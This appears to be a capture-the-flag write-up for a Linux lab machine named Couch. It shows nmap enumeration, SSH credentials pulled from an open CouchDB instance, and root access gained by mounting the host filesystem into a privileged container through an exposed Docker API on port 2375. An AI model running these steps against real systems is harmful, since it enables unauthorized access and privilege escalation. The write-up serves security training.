 # Couch - Linux - Easy

**IP may change over the document**

---
## Enumeration

### Nmap: `nmap -sV -p- -T4 -oN all-port-scan 10.10.178.155 -v`

```bash
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
5984/tcp  open     http        CouchDB httpd 1.6.1 (Erlang OTP/18)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Manual Enumeration on port 5984

Just using browser to visit the page we can see the following:

```json
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

In order to visit web admin tool we gotta visit *`_utils`*

```bash
To load Futon in your browser, visit:
http://127.0.0.1:5984/_utils/
```
[Source](https://guide.couchdb.org/draft/tour.html)

In order to list all databases we need to vist *`_all_dbs`*

```bash
Next, we can get a list of databases:
curl -X GET http://127.0.0.1:5984/_all_dbs
```
[Source](https://guide.couchdb.org/draft/tour.html)

After some fiddling around with the web-tool we can see the following `atena:t4qfzcc4qN##` found in `<IP>:5984/_utils/document.html?secret/a1320dd69fb4570d0a3d26df4e000be7`


---
## User.txt

Using `atena:t4qfzcc4qN##` as creds to ssh logs us in the machine as user atena. Just cat the *user.txt* file to get the user flag

---
## Root.txt

Running linPEAS on the system to get more info

LinPEAS reports that `runc` and `ctr` are installed meaning we might have a chance at mounting `/root` dir to container image.

Let's try.... Did not work.

Let's see we if there is something inside `.bash_history` file. It seems we have docker installed and it's configured to run in privileged mode.

```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

Just altering the mounting path we can easily get inside `/root` dir

```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/root alpine
```

Just move to `/root/root` dir inside the docker image and cat out the *root.txt* file
